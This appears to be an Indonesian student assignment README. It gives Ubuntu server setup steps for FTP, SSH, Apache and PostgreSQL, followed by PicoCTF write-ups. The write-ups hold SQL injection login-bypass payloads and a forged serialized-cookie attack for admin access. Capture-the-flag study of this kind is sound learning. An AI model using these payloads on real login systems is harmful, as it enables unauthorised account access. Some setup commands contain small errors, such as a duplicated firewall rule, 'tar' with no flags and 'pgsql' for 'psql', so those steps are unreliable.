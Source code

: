 # Tugas B201

## 1. Install Ubuntu Server 18.04

1. Buat boot dari Iso Ubuntu 18.04 (rufus)

2. Ikuti langkah-langkah nya

<br>

## 2. Install Samba


<br>

## 3. Install FTP
1. ```$ sudo apt update```

2. ```$ sudo apt install vsftpd```

3. ```$ sudo service vsftpd status```

4. Configure firewall

    ```$ sudo ufw allow 20/tcp ```

    ```$ sudo ufw allow 20/tcp ```

<br>

## 4. Install SSH
1. ```$ sudo apt update ```

2.  ```$ sudo apt install openssh-server```

3. ```$ sudo ufw allow ssh ```

4. ```$ sudo /etc/init.d/ssh status```

<br>

## 5. Install Apache
1. ```$ sudo apt get update ```

2. ```$ sudo apt-get install apache2 ```

3. ```$ sudo ufw allow 'Apache'```

    Start Apache

4. ```$ sudo /etc/init.d/apache2 start``` 

    restart Apache

5. ```$ sudo /etc/init.d/apache2 restart```

    Stop Apache
6. ```$ sudo /etc/init.d/apache2 stop ```

    Status Apache
7. ```$ sudo /etc/init.d/apache2 status```

<br>

## 6. Install PostgreSQL from source

1. Download PostgreSQL source

    ``` https://www.postgresql.org/ftp/source/v12.2/ ```

2. Install readline agar tidak error saat configure

    ```$ sudo apt-get install libreadline-dev ```

3. Extract tar dari hasil download
    
    ```$ tar postgresql-12.2.tar.gz ```

4. Masuk ke directory hasil extract an

    ```$ cd postgresql-12.2 ```

5.  Ketikkan perintah

    ```$ ./configure ```

6. Setelah selesai, compile & make file

    ```$ make ```

    lalu

    ```$ make install ```

7. Buat postgre user dan buat user data

    ```$ adduser postgres ```

    ```$ passwd postgres ```

    ```$ mkdir /usr/local/pgsql/data```

    ```$ chown postgres -R /usr/local/pgsql/data ```


8. Inisiasi postgreSQL data directory

    ```$ su -l postgres ```

    ```$ initdb -D /usr/local/pgsql/data ```

9. Include Path ke terminal
    ```$ echo 'export PATH=$PATH:/usr/local/pgsql/bin' > /etc/profile.d/postgres.sh```

9. Nyalakan service postgre

    ```$ pg_ctl start -D /usr/local/pgsql/data ```

10. Cek proses pada postgre

    ```$ ps -ef |grep -i postgres ```

11. Masuk CLI postgre

    ```$ pgsql ```

<br>
<br>
<br>

# PicoCTF Suryo 
## Iris-Name-Repo-1

``` https://2019shell1.picoctf.com/problem/27383/ ```

* Solusi Menggunakan SQL Injection pada kolom username

    ``` ' OR '1'='1' -- ```

## Iris-Name-Repo-2
* Pada kasus ini, telah difilter beberapa kata yang ada pada mysql

* Solusinya menset admin menjadi

    ``` admin'--- ```

    dan Password terserah

## Iris-Name-Repo-3
* Pada kasus ini, sql injection lebih ketat dari sebelumnya. Sehingga kata-kata yang biasa digunakan dalam sql injection tidak bisa digunakan.

* Solusi dari kasus ini adalah menggunakan algoritme enkripsi sederhana ROT13

    ``` ' BE 1=1 -- ```

## Cereal Hacker 1
* Pada masalah ini, kita diharuskan mencari cookie yang digunakan pada kredensial login.

* Setelah memasukkan username : ``` guest ``` dan password: ```guest``` (Brute Force), maka akan didapat cookies berupa

    ```TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D```

    <div style="color: blue;">
    (double urldecode + base64 decode)
    </div>

    didapatkan

    ``` O:11:"permissions":2{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";} ```

    apabila diset

    ``` O:11:"permissions":2{s:8:"username" s:5:"admin";s:8:"password";s:5:"' or '1'='1' --";}```

    akan muncul cookies baru

    ```TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6MTE6Iicgb3IgJ0EnPSdBIjt9```

    dan saat dimasukkan ke halaman login maka akan muncul flag

















